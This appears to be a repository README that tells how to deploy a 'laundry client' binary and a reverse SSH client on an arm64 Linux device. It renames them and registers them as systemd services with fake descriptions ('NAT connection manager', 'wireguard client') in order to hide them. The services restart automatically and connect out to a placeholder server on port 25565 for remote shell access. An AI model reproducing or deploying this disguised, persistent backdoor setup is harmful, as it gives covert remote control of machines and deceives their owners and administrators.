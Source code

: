 ## Laundry Client

To run un on arm64 architecture, please compile laundryclient with the following command:
```bash
cross build --target aarch64-unknown-linux-gnu --release
```

Rename the compiled laundryclient binary file to natcon to hide it as a NAT connection manager 😂

```bash
sudo nano /etc/systemd/system/natcon.service
```

```bash
[Unit]
Description=NAT connection manager
After=network.target

[Service]
Type=simple
ExecStart=/etc/natcon
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
```

```bash
sudo systemctl daemon-reload 
sudo systemctl enable natcon.service 
sudo systemctl start natcon.service
```

## Reverse SSH Client (Optional)

The client binary file is the pre-compiled reverse_ssh-2.1.3 for arm64. It is provided already but not apart of this repo.

Hide the reverse ssh client as a wireguard client 😂

```bash
sudo nano /etc/systemd/system/wgclient.service
```

```bash
[Unit]
Description=wireguard client
After=network.target

[Service]
Type=simple
ExecStart=/etc/client -d putServerAddressHere:25565 --foreground
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
```

```bash
sudo systemctl daemon-reload 
sudo systemctl enable wgclient.service 
sudo systemctl start wgclient.service
```